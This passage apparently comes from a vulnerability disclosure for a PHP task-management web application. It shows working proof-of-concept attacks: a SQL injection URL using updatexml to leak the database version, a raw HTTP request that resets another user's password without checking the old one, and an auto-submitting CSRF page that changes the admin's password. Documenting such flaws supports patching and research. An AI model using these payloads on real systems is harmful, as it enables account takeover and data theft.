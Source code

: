 On line 58, ```$logdate``` enters the database query without being processed by the GetSQLValueString function, resulting in injection.

Request the following url:
```/log_edit.php?date=1234/**/and/**/1=(updatexml(1,concat(0x5e24,(select%20@@version),0x5e24),1))--%20-&taskid= 1```

![12.png](./img/12.png)

The current database version obtained by injection is 5.5.53.

**[4]Unauthorized Access Vulnerability**

In user_edit_password.php:

![13.png](./img/13.png)

On line 24, the password is modified for the specified user by ```$_POST['ID']``` and the original password is not verified.
So you can override the password of someone else.

After logging in, send the following data:
```
POST /user_edit_password.php HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 69
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/user_edit_password.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=21

tk_user_pass=a121314156&tk_user_pass2=a121314156&MM_update=form1&ID=1
```

The admin's password will be modified to a121314156.

**[5]CSRF Vulnerability**

Save the following as change.html:
```
<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8002/user_edit_password.php?UID=1" method="POST">
      <input type="hidden" name="tk_user_pass" value="a1111111" />
      <input type="hidden" name="tk_user_pass2" value="a1111111" />
      <input type="hidden" name="MM_update" value="form1" />
      <input type="hidden" name="ID" value="1" />
    </form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```

After the admin accesses the page, the admin's password will be modified to a1111111.
If you want to modify someone else's password, modify the corresponding UID parameter.

**[6]Unauthorized Access Vulnerability**
```